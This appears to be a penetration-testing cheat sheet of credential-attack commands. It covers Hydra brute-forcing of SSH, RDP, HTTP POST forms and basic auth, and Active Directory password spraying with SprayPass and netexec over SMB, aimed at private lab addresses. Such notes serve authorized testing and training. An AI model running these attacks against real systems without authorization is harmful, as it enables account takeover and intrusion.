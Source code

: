###### SSH
`hydra -l admin -P password.lst ssh://192.168.192.202`
###### RDP
`hydra -L user.lst -p "SuperS3cure1337#" rdp://192.168.192.202`
**Note:** This can be very slow.

---
#### HTTP Post
###### Send Initial Request
Send a request to identify what the POST request content is and what the failed message is. The POST request would look like a standard request and the body would contain the user:pass like:
```http
POST /index.php HTTP/1.1
Host: 192.168.10.55
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

ab_usr=user&ab_pwd=Password1!
```

###### Give Hyrdra Failed Message
`hydra -l <user> -P <password-list> <target> http-post-form "/index.php:<post-request-content>=^PASS^:<Failed-message>"`
**Note:** the failed login message allows Hydra to differentiate between a failed and successful login.
###### Example
`hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.192.201 http-post-form "/index.php:ab_usr=user&ab_pwd=^PASS^:Login failed. Invalid"`

---
#### HTTP Get Basic Auth

`hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-get://192.168.192.201/:A=BASIC"`
**Note:** The `A=BASIC` lets hydra know to base64 encode the payload.

---
## Active Directory
###### Identify Account Lockout Policy
`net accounts`
#### Password Spraying
###### [SprayPass](https://github.com/NinjaPete/tools/blob/main/spraypass.ps1)
`.\SprayPass.ps1 -Pass Summer2025,Autumn2025 -Admins`
`.\SprayPass.ps1 -File .\passwords.txt -Admins`
##### netexec
###### General Usage
`netexec smb 192.168.50.75 -u users.txt -p 'Password123!' -d corp.com --continue-on-success`
###### Across Network Range
`netexec smb 192.168.50.0/24 -u 'pete' -p 'Password123!' -d corp.com --continue-on-success`